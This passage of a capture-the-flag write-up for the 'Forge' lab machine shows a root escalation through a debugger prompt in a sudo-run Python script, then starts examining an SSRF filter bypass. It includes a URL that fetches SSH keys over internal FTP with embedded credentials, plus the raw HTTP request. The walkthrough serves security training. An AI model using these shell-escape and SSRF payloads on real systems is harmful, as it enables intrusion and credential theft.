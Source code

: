 This terminal just hangs. Back in the other, there’s an error dump and a `pdb` prompt:

```

user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:11563
invalid literal for int() with base 10: b'0xdf'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb)

```

One simple way to a shell from here is to use `os.system`:

```

(Pdb) import os
(Pdb) os.system('bash')
root@forge:/home/user#

```

And grab `root.txt`:

```

root@forge:~# cat root.txt
72e7ca6f************************

```

## Beyond Root

### Filter Bypasses

#### Enumerating the Denylist

I wanted to take a closer look at the filter on the url submission, to see if it could be bypassed, and it turned out that it’s relatively weak.

I’ll start with the URL I wanted to use to grab the SSH key:

```

http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/.ssh/

```

I’ll submit that URL and look at the request in Burp:

```

POST /upload HTTP/1.1
Host: forge.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 120
Origin: http://forge.htb
Connection: close
Referer: http://forge.htb/upload
Upgrade-Insecure-Requests: 1

url=http%3A%2F%2Fadmin.forge.htb%2Fupload%3Fu%3Dftp%3A%2F%2Fuser%3Aheightofsecurity123%21%40127.0.0.1%2F.ssh%2F&remote=1

```